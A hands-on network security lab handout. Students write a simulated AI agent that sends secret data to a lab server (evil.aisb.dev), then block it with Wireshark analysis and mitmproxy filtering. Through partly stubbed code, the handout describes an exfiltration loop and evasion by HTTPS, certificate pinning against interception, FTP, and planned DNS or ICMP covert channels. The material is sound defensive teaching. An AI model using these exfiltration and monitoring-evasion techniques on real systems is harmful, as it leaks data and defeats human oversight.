

# W1D2 - Network Security and Traffic Analysis

Today you'll dive deep into network security by playing both sides of the cybersecurity equation. You'll implement an AI agent that attempts to exfiltrate data through various network protocols, then switch perspectives to build defensive systems that detect and block these communications.

This hands-on lab demonstrates the cat-and-mouse game between attackers and defenders in network security. You'll start with simple HTTP requests and progressively escalate through HTTPS encryption, certificate pinning, alternative protocols, and covert channels - all while learning how defenders can detect and counter each technique.


## Table of Contents

- [Content & Learning Objectives](#content--learning-objectives)
    - [1️⃣ Network Traffic Analysis with Wireshark](#-network-traffic-analysis-with-wireshark)
    - [2️⃣ HTTP Proxy Interception](#-http-proxy-interception)
    - [3️⃣ HTTPS Interception, Certificate Management and Trust](#-https-interception-certificate-management-and-trust)
    - [4️⃣ Network-Level Traffic Control](#-network-level-traffic-control)
    - [5️⃣ Covert Channels and Advanced Evasion](#-covert-channels-and-advanced-evasion)
- [Preliminaries](#preliminaries)
    - [Files](#files)
    - [Lab Architecture](#lab-architecture)
    - [Troubleshooting](#troubleshooting)
    - [Side-note: Pair programming](#side-note-pair-programming)
- [1️⃣ Network Traffic Analysis with Wireshark](#-network-traffic-analysis-with-wireshark-)
    - [Exercise 1: Making HTTP Requests to External Servers](#exercise--making-http-requests-to-external-servers)
        - [Exercise 1.1: Keep the Agent Running](#exercise--keep-the-agent-running)
    - [Exercise 2: Inspecting Network Traffic with Wireshark](#exercise--inspecting-network-traffic-with-wireshark)
        - [Exercise 2.1: Looking at the Traffic](#exercise--looking-at-the-traffic)
        - [Exercise 2.2: Following the HTTP Stream](#exercise--following-the-http-stream)
        - [Exercise 2.3: Understanding TCP/IP Layers](#exercise--understanding-tcpip-layers)
- [2️⃣ HTTP Proxy Interception](#-http-proxy-interception-)
    - [Exercise 3: Blocking Requests with mitmproxy](#exercise--blocking-requests-with-mitmproxy)
        - [Testing the Blocker](#testing-the-blocker)
        - [Summary](#summary)
- [3️⃣ HTTPS Interception, Certificate Management and Trust](#-https-interception-certificate-management-and-trust-)
    - [Encrypting traffic with HTTPS](#encrypting-traffic-with-https)
    - [Exercise 4: Implement make_evil_request_https()](#exercise--implement-makeevilrequesthttps)
    - [Exercise 5: Intercepting HTTPS Traffic](#exercise--intercepting-https-traffic)
        - [Exercise 5.1: Configure HTTPS Proxy](#exercise--configure-https-proxy)
        - [Exercise 5.2: Understanding Certificate Chains](#exercise--understanding-certificate-chains)
        - [Exercise 5.3: Installing mitmproxy's CA Certificate](#exercise--installing-mitmproxys-ca-certificate)
        - [Step 2: Update the Dockerfile to trust the certificate](#step--update-the-dockerfile-to-trust-the-certificate)
        - [Exercise 5.4: Verify HTTPS Interception (Optional)](#exercise--verify-https-interception-optional)
    - [Security Implications](#security-implications)
    - [Exercise 6: Certificate Pinning to Evade MITM Proxies](#exercise--certificate-pinning-to-evade-mitm-proxies)
        - [Exercise 6.1 - Implement make_evil_request_pinned](#exercise----implement-makeevilrequestpinned)
        - [Summary](#summary-)
        - [Exercise 6.2 - Update the url to ev1l.aisb.dev (Optional)](#exercise----update-the-url-to-evlaisbdev-optional)
        - [Exercise 6.3 - FTP (Optional)](#exercise----ftp-optional)
        - [Next Steps](#next-steps)
- [4️⃣ Network-Level Traffic Control](#-network-level-traffic-control-)
    - [Understanding the Linux Network Stack](#understanding-the-linux-network-stack)
        - [How NFQUEUE Works](#how-nfqueue-works)
        - [iptables Rules](#iptables-rules)
    - [Exercise 7: Blocking TCP Traffic with netfilterqueue](#exercise--blocking-tcp-traffic-with-netfilterqueue)
        - [Exercise 7.1 - Implement TCP Blocking](#exercise----implement-tcp-blocking)
        - [Exercise 7.2 - Denylists vs Allowlists](#exercise----denylists-vs-allowlists)
- [5️⃣ Covert Channels and Advanced Evasion](#-covert-channels-and-advanced-evasion-)
    - [Exercise 8: I don't need TCP](#exercise--i-dont-need-tcp)
    - [Exercise 9: Modifying DNS Requests](#exercise--modifying-dns-requests)
        - [Exercise 9.1 - Implement DNS Filtering](#exercise----implement-dns-filtering)
        - [Exercise 9.1a - implement get_packet function (quite difficult, very optional)](#exercise-a---implement-getpacket-function-quite-difficult-very-optional)
        - [Exercise 9.2: Block UDP Traffic to External Servers](#exercise--block-udp-traffic-to-external-servers)
- [Exercise 10: playing ping pong (optional)](#exercise--playing-ping-pong-optional)

## Content & Learning Objectives

### 1️⃣ Network Traffic Analysis with Wireshark

You'll master the fundamentals of network packet analysis using industry-standard tools to understand how data flows across networks.

> **Learning Objectives**
> - Capture and analyze network traffic using Wireshark
> - Understand the TCP/IP stack and protocol layers

### 2️⃣ HTTP Proxy Interception

You'll learn how to intercept, inspect, and modify web traffic using mitmproxy, understanding both the defensive capabilities and the attacks they can prevent.

> **Learning Objectives**
> - Deploy mitmproxy for HTTP traffic interception
> - Implement request/response filtering and blocking rules

### 3️⃣ HTTPS Interception, Certificate Management and Trust

You'll explore how HTTPS protects communications and learn techniques for both establishing and bypassing certificate-based trust.

> **Learning Objectives**
> - Understand certificate chains, root CAs, and trust stores
> - Implement certificate pinning to detect MITM attacks

### 4️⃣ Network-Level Traffic Control

You'll work with Linux networking internals to implement packet-level filtering and understand how network security operates at the kernel level.

> **Learning Objectives**
> - Use iptables and netfilterqueue for packet-level filtering
> - Build allowlists vs denylists for network access control

### 5️⃣ Covert Channels and Advanced Evasion

You'll explore sophisticated techniques for hiding communications in legitimate network protocols and understand the challenges of detecting covert channels.

> **Learning Objectives**
> - Implement DNS tunneling and TXT record abuse
> - Use ICMP for covert data transmission

## Preliminaries

Quite a few exercises await you today. You will likely not be able to finish all of them. That's ok! Focus on the exercises that interest you most and use help when you get stuck. Just bear in mind that the exercises build on each other, so make sure you read through the instructions even if you want to skip something.

### Files
Today, your solution will consist of three files. **Create them now:**
- `w1d2_answers_agent.py`: This file will contain your AI agent implementation that continuously tries to exfiltrate data through various network protocols.
- `w1d2_answers_mitmproxy.py`: This file will contain your defensive proxy implementation that defines proxy rules.
- `w1d2_answers_nfqueue.py`: This file will contain code for low-level network packet filtering you will implement later.

**Create the files before running `docker-compose up`.**. Otherwise, directories of the same name will be created that you will need to remove first.

### Lab Architecture
The lab today will simulate a network where a node, controlled by the attacker, connects to the internet through a network proxy, controlled by the defender. This will be simulated by two Docker containers running on the same network.

You may inspect the [docker-compose.yml](docker-compose.yml) file to see how the containers are configured. The `agent` container will run the AI agent code, while the `mitmproxy` container will run a proxy to intercept and analyze network traffic.

```
┌──────────────────────────────────────────────────────────────────────────────┐
│                    mitm-network  (bridge, 172.25.0.0/16)                     │
│                                                                              │
│  ┌──────────────────────────┐        ┌─────────────────────────────┐         │
│  │      agent-container     │        │    mitmproxy-sidecar        │         │
│  │        (Attacker)        │        │       (Defender)            │         │
│  │                          │ ─HTTP─►│ • HTTP proxy : 8080         │         │
│  │  outbound traffic:       │ ─DNS──►│ • DNS mode   : 53           │         │
│  │  • HTTP / HTTPS          │  ...   │ • filters, rules.py         │         │
│  │  • DNS tunnel, etc.      │        │                             │         │
│  │                          │        │                             │         │
│  │ Mounted files:           │        │ Mounted files:              │         │
│  │ • w1d2_answers_agent.py  │        │ • w1d2_answers_mitmproxy.py |         │
│  │ • w1d2_answers_nfqueue.py│        │                             │         │
│  └──────────────────────────┘        └─────────────────────────────┘         │
│                                                                              │
└──────────────────────────────────────────────────────────────────────────────┘
                                      │
                                      │  Port 8081 → Host (mitmweb UI)
                                      ▼
                                 Docker host
                                      │
                                      ▼
                                   Internet
```

### Troubleshooting
Today's setup is a bit more complicated. If you run into issues, try some of these steps:
- If you have problems installing the `docker-in-docker` feature in your devcontainer, comment out the respective line (`"ghcr.io/devcontainers/features/docker-in-docker:1": {}`) in the [devcontainer.json](../.devcontainer/devcontainer.json) file. Without it, you won't be able to run docker commands inside the devcontainer, but you should still be able to run them from the host machine (e.g., outside of VS Code).
- Stop your containers with Ctrl+C (if they are in foreground) or `docker-compose down` (if they are in background), and start them again with container rebuild: `docker-compose up --build`.
- Make sure you have the latest version of the repository pulled. Try "Dev Containers: Rebuild and Reopen in Container" action in VS Code.
- If you cannot start the containers with `docker-compose up` inside the Dev Container, try running it from the host machine instead. You can do this by opening a terminal in the `w1d2` directory outside of VS Code and running `docker compose up --build`.

### Side-note: Pair programming
<details>
<summary>
You had an opportunity to pair up with a partner on your first day. Now that you have tried what it feels like, you can expand this section for a few tips that can make it easier for you.</summary><blockquote>

* Use the "Driver and Navigator" [style](https://martinfowler.com/articles/on-pair-programming.html#Styles)
    * The Driver is at the keyboard. It's a good idea if they talk through what they are doing as they go.
    * The Navigator reviews the code on-the-go, gives directions and shares thoughts. They can, e.g., read the exercise instructions ahead, look up necessary information, or take notes about things you want to get back to later.
- Pair programming for long stretches of time can be exhausting. Take breaks frequently.
- Talk about your preferences before you start. E.g.: How often would you like to switch roles between Driver and Navigator? Do you prefer to type on your laptop? How often to take breaks?
- Use a timer for switching roles and/or taking breaks.
- Be patient and apply the "5 seconds rule": When the navigator sees the driver do something "wrong" and wants to comment, wait at least 5 seconds before you say something. The driver might already have it in mind, and you may be needlessly interrupting their flow. You can also take notes to return to later instead of interrupting immediately.
- Don't take these tips as strict rules. It's fine if something else works for you! Just be mindful of what works for both you and your partner.
- (See other pitfalls to avoid on [Martin Fowler's blog](https://martinfowler.com/articles/on-pair-programming.html#ThingsToAvoid))
</blockquote></details>


## 1️⃣ Network Traffic Analysis with Wireshark


```python

import os
pass  # Ignore this line
```

### Exercise 1: Making HTTP Requests to External Servers

> **Difficulty**: 🔴⚪⚪⚪⚪
> **Importance**: 🔵🔵⚪⚪⚪
>
> You should spend up to ~5 minutes on this exercise.

In this exercise, you'll implement an AI agent that attempts to communicate with an external server. This simulates a scenario where a compromised or malicious AI agent tries to exfiltrate data or receive commands from an attacker-controlled server.

The agent will start with a simple HTTP GET request to `evil.aisb.dev`. In later exercises, we'll explore how defenders can detect and block these communications, and how attackers might try to evade detection.

<details>
<summary>Background: Why AI Agents Might Make External Requests</summary><blockquote>

AI agents might attempt external communications for various reasons:
- **Data exfiltration**: Sending sensitive information to unauthorized servers
- **Command & Control (C2)**: Receiving instructions from attackers
- **Resource access**: Fetching additional data or models
- **Persistence**: Downloading and executing additional payloads

Understanding these attack vectors is crucial for both red teams (to test defenses) and blue teams (to implement protections).

</blockquote></details>

Implement the `make_evil_request` function that sends a GET request to the evil server with a secret message. This will go into the **`w1d2_answers_agent.py` file**.


```python

import base64
import time

from typing import Optional, Dict, Any
from unittest.mock import patch, MagicMock
import requests


def make_evil_request(secret_data: str) -> Optional[str]:
    """
    Send a GET request to evil.aisb.dev with secret data.

    This simulates an AI agent attempting to communicate with an external C2 server.
    The secret data is sent as a query parameter.

    Args:
        secret_data: The secret information to exfiltrate

    Returns:
        The response text from the server, or None if the request fails or throws
    """
    # TODO: Implement the function to:
    #   1. Make a GET request to http://evil.aisb.dev/exfiltrate?data=secret_data
    #      - to ensure tests pass, use `requests.get(url, params=..., timeout=5)`
    #      - if the tests fail and you are pretty sure you are making the correct request, you can ignore the first test
    #   2. Return the response text if successful (status 200), None otherwise
    pass
from w1d2_test import test_make_evil_request
test_make_evil_request(make_evil_request)

exfiltrate_data = make_evil_request
```

#### Exercise 1.1: Keep the Agent Running
At this point, you have a function that simulates an AI agent trying to exfiltrate data by making HTTP requests to an external server. Let's run it continuously from the `agent` container.

**Add the following code to your `w1d2_answers_agent.py` file** to run the agent:


```python

if __name__ == "__main__":  # Only executed when running the script directly
    """
    Make requests to the evil server with different secret data.
    This simulates an AI agent repeatedly trying to exfiltrate data.
    """

    def loop_exfiltration():
        while True:
            global exfiltrate_data
            try:
                time.sleep(5)
                print(exfiltrate_data("some_secret_data"))
            except KeyboardInterrupt:
                print("Stopping exfiltration loop.")
                break

    import threading
    thread = threading.Thread(target=loop_exfiltration)
    thread.start()
```

The Dockerfile and docker-compose.yaml files are already created for you to run the agent container.

**Run**
```bash
docker-compose up
```
**to start the containers.** (If you don't have `docker-compose` command, try `docker compose up` instead.)

At this point, your agent will continuously attempt to exfiltrate data by making requests to the evil server.
Go to w1d2_answers_mitmproxy.py for exercise 2, where we will implement a way to block these requests using a proxy server.

<details>
<summary><b>Tip:</b> running commands from the docker compose containers</summary><blockquote>

If you want to debug what's happening in the containers, use one of these commands respectively (executed from the w1d2 directory):

```bash
docker compose exec -it agent bash
docker compose exec -it mitmproxy bash
```

</blockquote></details>


### Exercise 2: Inspecting Network Traffic with Wireshark

Now that we have an agent making HTTP requests to an external server, let's switch to the defender's perspective. As a defender, your first step is to understand what's happening on the network.

We'll use Wireshark, a packet analyzer that lets you capture and interactively browse network traffic. It's like having X-ray vision for your network - you can see every packet, every protocol, and every byte of data flowing through your network interfaces.

<details>
<summary>Setting up Wireshark</summary><blockquote>

**Installation:**
- **Ubuntu/Debian**: `sudo apt update && sudo apt install wireshark`
- **macOS**: `brew install --cask wireshark`
- **Windows**: Download from [wireshark.org](https://www.wireshark.org/download.html)

**Running Wireshark:**
1. Launch Wireshark (you may need sudo/admin privileges)
2. Select your network interface (usually eth0, en0, or similar)
3. Click the blue shark fin to start capturing

Ask an instructor if you need help with installation or running Wireshark.
</blockquote></details>

#### Exercise 2.1: Looking at the Traffic

> **Difficulty**: 🔴🔴⚪⚪⚪
> **Importance**: 🔵🔵🔵🔵⚪
>
> You should spend up to ~15 minutes exploring Wireshark.

Start your agent container and begin capturing traffic with Wireshark.

**Steps:**
1. Start the agent with `docker-compose up`
2. Open Wireshark and start capturing on the appropriate interface
3. Look for HTTP traffic (you can use the display filter: `http`)
4. Find requests containing "evil.aisb.dev"

<details>
<summary>Too many packets?</summary><blockquote>

If you're getting overwhelmed by network traffic, try this display filter:
```
ip.addr == 49.12.34.32
```

This filters for traffic to/from the evil.aisb.dev server IP. You can also try:
```
http.host contains "evil.aisb.dev"
```

</blockquote></details>

#### Exercise 2.2: Following the HTTP Stream

Once you've found an HTTP request to evil.aisb.dev:

1. **Right-click** on the HTTP GET request packet
2. Select **Follow → HTTP Stream**
3. You should now see the complete HTTP conversation, including:
   - The GET request with the secret data in the URL
   - The server's response

<details>
<summary>What to Look For</summary><blockquote>

In the HTTP stream window, you should see something like:
```
GET /exfiltrate?data=some_secret_data HTTP/1.1
Host: evil.aisb.dev
User-Agent: python-requests/2.32.4
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive

HTTP/1.1 200 OK
Server: nginx/1.22.1
Date: Sat, 14 Jun 2025 14:38:36 GMT
Content-Type: application/octet-stream
Content-Length: 39
Connection: keep-alive
Content-Type: text/plain

You have reached the http endpoint >:)
```

Notice how the secret data is visible in plain text in the URL!

</blockquote></details>

#### Exercise 2.3: Understanding TCP/IP Layers

> You should spend up to ~10 minutes on this exercise.

Now let's explore how HTTP traffic is actually transmitted:

1. Close the HTTP stream window
2. Use the display filter `tcp.stream eq stream_id` to isolate the TCP stream for the HTTP request. You should see something like:

    
3. Select the first packet in the stream
4. In the left pane, you can see the protocol layers involved in this communication. Expand the layers to see details.
   - **Ethernet**: The packet bytes on the wire
   - **Internet Protocol (IP)**: Source, destination IP addresses, protocol, etc.
   - **Transmission Control Protocol (TCP)**: Source, destination ports, sequence numbers, flags, etc.
   - **Hypertext Transfer Protocol (HTTP)**: Application data

Play around with the layers to see how they relate to each other. You can also right-click on any packet and select "Follow" to see the stream this packet was a part of.

For example, right-click on the TCP layer and select "Follow → TCP Stream" to see the TCP stream:
1. The first three packets will show the TCP handshake - this is how clients and servers establish a TCP connection:
    1. Send: SYN (synchronize)
    2. Receive: SYN-ACK (synchronize-acknowledge)
    3. Send: ACK (acknowledge)
    4. Then the HTTP request and response packets follow.
2. When the connection is closed, you'll see FIN (finish) packets.

**Try these Wireshark features:**
- Statistics → Protocol Hierarchy (see traffic breakdown)
- Statistics → Conversations (see all TCP connections)
- https://github.com/mchow01/Bootcamp has a handful of example pcap files you can use to practice with Wireshark.


## 2️⃣ HTTP Proxy Interception

### Exercise 3: Blocking Requests with mitmproxy

> **Difficulty**: 🔴🔴⚪⚪⚪
> **Importance**: 🔵🔵🔵🔵🔵
>
> You should spend up to ~10 minutes on this exercise.

Now that we can see the malicious traffic, let's block it! We'll use **mitmproxy**, a powerful HTTPS proxy that can intercept, inspect, modify, and block traffic.

**How mitmproxy Works**

mitmproxy sits between the client (our agent) and the server (evil.aisb.dev):
```
Agent → mitmproxy → Internet → evil.aisb.dev
```

This is called a "man-in-the-middle" position, allowing us to:
- See all traffic
- Modify requests and responses
- Block specific domains or patterns

The docker-compose file already includes mitmproxy as a sidecar container. Let's look for requests to `evil.aisb.dev` and block them.

Add this code to your **`w1d2_answers_mitmproxy.py`** file.


```python

from mitmproxy import http
from typing import List


class RequestBlocker:
    def request(self, flow: http.HTTPFlow) -> None:
        """
        Intercept and potentially block HTTP requests.

        This method is called by mitmproxy for every HTTP request.
        If the request is to a blocked domain, we create a fake response
        instead of forwarding the request.

        Args:
            flow: The HTTP flow object containing request and response
        """
        # TODO: Implement request blocking
        #   1. Check if flow.request.pretty_host contains "evil.aisb.dev"
        #   2. If blocked, create a response (flow.response = http.Response.make(...)) with:
        #      - Status code 200
        #      - Body: b"intercepted and blocked request :)"
        #   3. Print a message indicating the request was blocked
        pass


# Initialize the addon for mitmproxy
addons: list = []
addons = [RequestBlocker()]
```

#### Testing the Blocker

1. **Stop your current containers**: `docker-compose down` (or Ctrl+C if it's running in the foreground)

2. **Configure the agent to use the proxy** by uncommenting these lines in docker-compose.yml:
   ```yaml
   environment:
     - HTTP_PROXY=http://localhost:8080
     - NO_PROXY=localhost,127.0.0.1
   ```
3. **Start the containers**: `docker-compose up`

4. **Observe the results**:
   - Check mitmproxy logs: You should see the log message indicating the request was blocked
   - Check agent logs: The agent should receive the modified responses

#### Summary

In this exercise, you've learned:

1. **Network Analysis**: How to use Wireshark to capture and analyze network traffic
2. **Protocol Layers**: How HTTP rides on top of TCP/IP
3. **Traffic Interception**: Using mitmproxy to intercept and block requests
4. **Security Monitoring**: Building analytics to track blocked threats

**Additional Resources**:

- [Wireshark User Guide](https://www.wireshark.org/docs/wsug_html_chunked/)
- [mitmproxy Documentation](https://docs.mitmproxy.org/stable/)
- [OWASP Proxy Guide](https://owasp.org/www-community/Proxy)


## 3️⃣ HTTPS Interception, Certificate Management and Trust
### Encrypting traffic with HTTPS
Let's switch to the agent's perspective now and implement a way to exfiltrate data securely using HTTPS - this will stop our proxy from being able to block requests, and ensure the communication is encrypted.

In the previous exercises, the defender could easily inspect your HTTP traffic using Wireshark and see exactly what data you were exfiltrating. The communication looked something like this in Wireshark:

```
GET /exfiltrate?data=some_secret_data HTTP/1.1
Host: evil.aisb.dev
User-Agent: python-requests/2.32.4
...
```

To evade this detection, we can switch to HTTPS, which encrypts the communication channel.

<details>
<summary>Background: How HTTPS Protects Communication</summary><blockquote>

HTTPS (HTTP Secure) uses TLS/SSL to encrypt the communication between client and server:

- **What we can hide with HTTPS:**
  - The URL path (/exfiltrate)
  - Query parameters (?data=secret)
  - Request/response headers (except Host via SNI)
  - Request/response body content

- **What cannot be hidden with HTTPS:**
  - The destination IP address
  - The destination port (usually 443)
  - The SNI (Server Name Indication) - the domain name
  - The amount of data transferred
  - The timing of requests

</blockquote></details>

### Exercise 4: Implement make_evil_request_https()

> **Difficulty**: 🔴⚪⚪⚪⚪
> **Importance**: 🔵🔵🔵⚪⚪
>
> You should spend up to ~5 minutes on this exercise.

Modify your request function to use HTTPS instead of HTTP. This simulates an attacker trying to evade network inspection. The code below belongs in the **`w1d2_answers_agent.py`** file.


```python


def make_evil_request_https(secret_data: str) -> Optional[str]:
    """
    Send a GET request over HTTPS to evil.aisb.dev with secret data.

    Args:
        secret_data: The secret information to exfiltrate

    Returns:
        The response text from the server, or None if the request fails
    """
    # TODO: Implement the function to:
    #   1. Make a GET request to https://evil.aisb.dev/exfiltrate?data=secret_data
    #   2. Return the response text if successful (status 200), None otherwise
    pass
from w1d2_test import test_make_evil_request_https
test_make_evil_request_https(make_evil_request_https)


# Update the exfiltrate_data function to use HTTPS
exfiltrate_data = make_evil_request_https
```

**Next steps:**
At this point, your agent will attempt to exfiltrate data using HTTPS, making it harder for defenders to inspect the traffic. In the next exercise, we'll switch to the defense side again and have a look at how we can intercept and block these requests using the proxy server.


### Exercise 5: Intercepting HTTPS Traffic

The agent has now switched to HTTPS, encrypting their communication. Let's see what happens when we try to intercept this encrypted traffic with our proxy.

#### Exercise 5.1: Configure HTTPS Proxy

> **Difficulty**: 🔴⚪⚪⚪⚪
> **Importance**: 🔵🔵🔵🔵⚪
>
> You should spend up to ~5 minutes on this exercise.

First, we need to configure the agent to use our proxy for HTTPS traffic as well.

1. Add HTTPS proxy configuration by **uncommenting this line in docker-compose.yml**:
   ```yaml
   - HTTPS_PROXY=http://mitmproxy:8080  # Add this line
   ```

2. **Re-run the containers**: `docker-compose up`

3. **Observe the error**: You should see something like:
    ```
    agent-container    | SSL Error (certificate issue?): HTTPSConnectionPool(host='evil.aisb.dev', port=443): Max retries exceeded with url: /exfiltrate?data=some_secret_data (Caused by SSLError(SSLCertVerificationError(1, '[SSL: CERTIFICATE_VERIFY_FAILED] certificate verify failed: unable to get local issuer certificate (_ssl.c:1017)')))
    ```

<details>
<summary>Why does this error occur?</summary><blockquote>

When mitmproxy intercepts HTTPS traffic, it performs a "man-in-the-middle" attack:

1. The agent connects to mitmproxy thinking it's evil.aisb.dev
2. mitmproxy presents its own certificate (not evil.aisb.dev's real certificate)
3. The agent's SSL library detects this certificate isn't trusted
4. The connection is rejected to protect against MITM attacks

This is exactly how HTTPS is supposed to work - it protects against interception!
</blockquote></details>

#### Exercise 5.2: Understanding Certificate Chains

Before we fix this, let's understand how certificate verification works.

**The Trust Problem**

When you connect to a website over HTTPS, how do you know the server is who it claims to be? This is solved through a **chain of trust**:

```
Root CA Certificate (trusted by OS/browser)
    ↓ signs
Intermediate CA Certificate
    ↓ signs
Server Certificate (evil.aisb.dev)
```

**Certificate Verification Process**

Let's run through the steps of verifying a certificate chain:
1. **Server presents certificate**: "I am evil.aisb.dev"
    ```bash
    echo | openssl s_client -servername evil.aisb.dev -connect evil.aisb.dev:443 -showcerts 2>/dev/null | tee /dev/stderr | sed -ne '/-BEGIN CERTIFICATE-/,/-END CERTIFICATE-/p' > chain.pem
    # Split the chain into individual certificates
    awk '
      BEGIN {n=0}
      /-----BEGIN CERTIFICATE-----/ {n++}
      {print > ("cert" n ".pem")}
    ' chain.pem
    ```
2. **Client checks signature**: Was this signed by a trusted CA?
    ```bash
    # Check the certificate details
    openssl x509 -in cert2.pem -noout -text | egrep -A2 "Subject:|Issuer:|Validity"
    # Verify the certificate against the system certificate authority (CA)
    OPENSSL_CERT_PATH="$(openssl version -d | cut -d'"' -f2)/cert.pem"
    openssl verify -CAfile "$OPENSSL_CERT_PATH" cert2.pem
    ```
3. **Follow the chain**: Check each certificate up to a trusted root
    ```bash
    # check next certificate in the chain
    openssl x509 -in cert1.pem -noout -text | egrep -A2 "Subject:|Issuer:|Validity"
    # Notice we are using the first certificate as the CA for the second
    openssl verify -CAfile cert1.pem cert2.pem
    ```
4. **Verify details**: Is the certificate valid, not expired, for the right domain?

You can do the same if you open the website in a browser and click the padlock icon. It will show you the certificate chain and details.

**Types of Certificates:**

- **Root CA**: Self-signed, pre-installed in OS/browsers (e.g., DigiCert, Let's Encrypt)
- **Intermediate CA**: Signed by root, signs other certificates
- **End-entity/Server**: The actual website's certificate

**Adding our own CA**

mitmproxy generates its own CA certificate and uses it to create fake certificates for any domain:
```
mitmproxy Root CA (not trusted by default!)
    ↓ dynamically generates
Fake certificate for evil.aisb.dev
```

For mitmproxy to work, we can just add its root CA to our agent's trust store.

#### Exercise 5.3: Installing mitmproxy's CA Certificate

> **Difficulty**: 🔴🔴🔴⚪⚪
> **Importance**: 🔵🔵🔵🔵🔵
>
> You should spend up to ~15 minutes on this exercise.

Let's install mitmproxy's CA certificate in the agent container so it trusts our proxy.

**Step 1: Get mitmproxy's CA certificate**

First, we need to extract the CA certificate from the mitmproxy container. Uncomment the following line in your `docker-compose.yml` file to make mitmproxy use the respective CA certificate:
```yaml
    # - ./mitmproxy-certs:/home/mitmproxy/.mitmproxy
```

#### Step 2: Update the Dockerfile to trust the certificate

Update the agent's `Dockerfile` so that it trusts the same CA certificate that mitmproxy uses. Find the lines marked as `# UNCOMMENT THE LINES BELOW IN EXERCISE 5.3` and uncomment them:

```dockerfile
# UNCOMMENT THE LINES BELOW IN EXERCISE 5.3
# Copy our mitmproxy CA certificate
COPY mitmproxy-certs/mitmproxy-ca-cert.cer /usr/local/share/ca-certificates/mitmproxy-ca.crt
# Update the certificate store
RUN update-ca-certificates
# Set Python to use system certificates
ENV REQUESTS_CA_BUNDLE=/etc/ssl/certs/ca-certificates.crt
ENV SSL_CERT_FILE=/etc/ssl/certs/ca-certificates.crt
```

**Step 3: Rebuild and test**
Restart the containers and force a rebuild to apply the changes:

```bash
docker-compose up --build
```

You should now see:
- The agent does not throw SSL errors
- mitmproxy logs show the intercepted HTTPS traffic
- Your blocker successfully blocks requests to evil.aisb.dev

#### Exercise 5.4: Verify HTTPS Interception (Optional)

> **Difficulty**: 🔴🔴⚪⚪⚪
> **Importance**: 🔵🔵🔵🔵⚪
>
> You should spend up to ~10 minutes on this exercise.

Let's verify that we can now see the HTTPS traffic:

1. **Use mitmproxy's web interface**:
   - In the `docker-compose.yaml` file, change the command to mitmweb instead of mitmdump
   - Open http://localhost:8081 in your browser
   - You should see all intercepted HTTPS requests
   - Click on a request to see full details including:
     - Decrypted request headers
     - URL with secret parameters
     - Response content

2. **Compare with Wireshark**:
   - Start Wireshark and capture traffic
   - Filter for `tcp.port == 8080`
   - Notice that you can see traffic to the proxy, but the content is still encrypted
   - This shows that mitmproxy acts as a trusted intermediary

### Security Implications

We hope this exercise makes it obvious why you should never install custom CA certificates on your personal devices unless you trust the source to read and modify all your HTTPS traffic.
This is a powerful tool for security professionals, but it can also be abused by attackers to intercept sensitive data.


### Exercise 6: Certificate Pinning to Evade MITM Proxies
Let's switch to the agent's perspective once more and try to detect if we are being monitored by a proxy.

In the previous exercise, the defender could intercept your HTTPS traffic using mitmproxy with a self-signed certificate. This worked because your agent blindly trusted any certificate presented to it.

Certificate pinning is a security technique where the client validates that the server's certificate matches a known, trusted certificate. This prevents MITM attacks, even if the attacker has installed their own certificate on the system.

Certificate pinning involves:

1. **Pre-storing a trusted certificate**: The client has a copy of the expected certificate (or its root CA)
2. **Validating during connection**: When connecting, the client checks if the server's certificate chains to the pinned certificate
3. **Rejecting mismatches**: If the certificate doesn't match, the connection is refused

#### Exercise 6.1 - Implement make_evil_request_pinned

> **Difficulty**: 🔴🔴⚪⚪⚪
> **Importance**: 🔵🔵🔵🔵⚪
>
> You should spend up to ~10 minutes on this exercise.

Implement certificate pinning by validating against the ISRG Root X1 certificate (Let's Encrypt's root CA). You can find the certificate file by going to the certificates window in your browser when visiting `https://evil.aisb.dev`. We have provided the same in a file named `isrg-root-x1.pem` in this directory.


```python


def make_evil_request_pinned(secret_data: str) -> Optional[str]:
    """
    Send a GET request over HTTPS with certificate pinning to evil.aisb.dev.

    This function uses certificate pinning to ensure we're talking to the real
    evil.aisb.dev server, not a MITM proxy with a self-signed certificate.

    Args:
        secret_data: The secret information to exfiltrate

    Returns:
        The response text from the server, or None if the request fails
    """
    # TODO: Implement certificate pinning:
    #   1. Make a GET request to https://evil.aisb.dev/exfiltrate?data=secret_data
    #   2. Use verify='isrg-root-x1.pem' as a parameter to requests to pin the certificate
    #   4. Return the response text if successful, None otherwise
    pass
from w1d2_test import test_make_evil_request_pinned
test_make_evil_request_pinned(make_evil_request_pinned)

exfiltrate_data = make_evil_request_pinned
```

**Restart docker containers** and run them again with `docker-compose up` to see the effect of your changes.

#### Summary
- Your agent now validates the server's certificate against a known root CA
- MITM attacks using self-signed certificates will fail - when you run the docker compose, you should see an error like:
```
agent-container    | Certificate validation failed (possible MITM?): HTTPSConnectionPool(host='evil.aisb.dev', port=443): Max retries exceeded with url: /exfiltrate?data=some_secret_data (Caused by SSLError(SSLCertVerificationError(1, '[SSL: CERTIFICATE_VERIFY_FAILED] certificate verify failed: unable to get local issuer certificate (_ssl.c:1017)')))
```

#### Exercise 6.2 - Update the url to ev1l.aisb.dev (Optional)
> **Difficulty**: 🔴⚪⚪⚪⚪
> **Importance**: 🔵🔵⚪⚪⚪
>
> You should spend up to ~2 minutes on this exercise.

Update the URL in your `make_evil_request_pinned` function to `https://ev1l.aisb.dev/exfiltrate`. This makes it even more difficult to block requests based on just reading the request.

#### Exercise 6.3 - FTP (Optional)
> **Difficulty**: 🔴⚪⚪⚪⚪
> **Importance**: 🔵🔵⚪⚪⚪
>
> You should spend up to ~10 minutes on this exercise.

Implement a new function `make_evil_request_ftp` that reads some data over FTP from `ftp.scene.org`. There are many protocols that use TCP but are not HTTP-based, which makes the HTTP proxy unable to intercept them. For reference, see https://attack.mitre.org/techniques/T1095/


```python


def make_evil_request_ftp(secret_data: str) -> Optional[str]:
    """
    Send a request over FTP to ftp.scene.org with secret data.

    This simulates an AI agent attempting to exfiltrate data using a non-HTTP protocol.

    Args:
        secret_data: The secret information to exfiltrate

    Returns:
        The response text from the server, or None if the request fails
    """
    # TODO: Implement the function to:
    #   1. Connect to ftp.scene.org using the ftplib library
    #   2. Read some data (e.g., list files in the root directory)
    #   3. Return the response text if successful, None otherwise
    pass
from w1d2_test import test_make_evil_request_ftp
